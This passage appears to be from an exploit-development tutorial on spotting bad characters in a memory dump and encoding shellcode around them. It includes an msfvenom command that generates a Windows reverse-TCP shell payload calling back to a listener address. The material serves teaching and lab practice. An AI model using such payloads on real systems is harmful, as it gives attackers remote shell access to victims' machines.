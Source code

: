 Note the memory dump in blue - it contains our string for testing bad characters that we sent to the vulnerable program as our payload. Since we can see all the bytes ranging from 0x00 through to 0xFF in the correct order with no bytes missing or mangled, this confirms that we did not have to deal with any bad characters with this vulnerable program.

If we, however, spotted that a character, say, `0x0A` was replaced with some random character, say, `0xE3`, this would indicate that `0x0A` is a bad character:

![0xa0 is identified as a bad character](../../../.gitbook/assets/image%20%28810%29.png)

Once a bad character is identified: 

* In the exploit code, replace that bad character with a known good character - any character going before it, that did not get modified by the vulnerable program. In my case, that could be any byte from 0x01 to 0x09. I chose 0x09 as shown in green in the above screenshot... or you could simply remove the bad character from the string for testing bad characters;
* Fire the exploit against the target again;
* Inspect the memory dump again to see if there are any other bad characters;
* Repeat the process until all bad characters are identified.

### Encoding Shellcode

Once all the bad characters are identified, we need to ensure that our shellcode that we send to the vulnerable program does not contain them. When generating shellcode with `msfvenom`, we can give it a list of bad characters by specifying the `-b` flag and those characters will be encoded / replaced by others. In my case, I'd invoke `msfvenom` with `-b 0xa`:

```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.2 LPORT=443 -f python -b 0x0a
```

Below shows how `msfvenom` fails a couple of times to encode the `0x0a` byte when using `shikata ga nai` encoder, but succeeds eventually when using the `call4 dword xor`. Assuming `0x0a` is the only bad character, the shellcode is now bad character-free and ready to use:

![Shellcode&apos;s bad characters getting encoded](../../../.gitbook/assets/image%20%28811%29.png)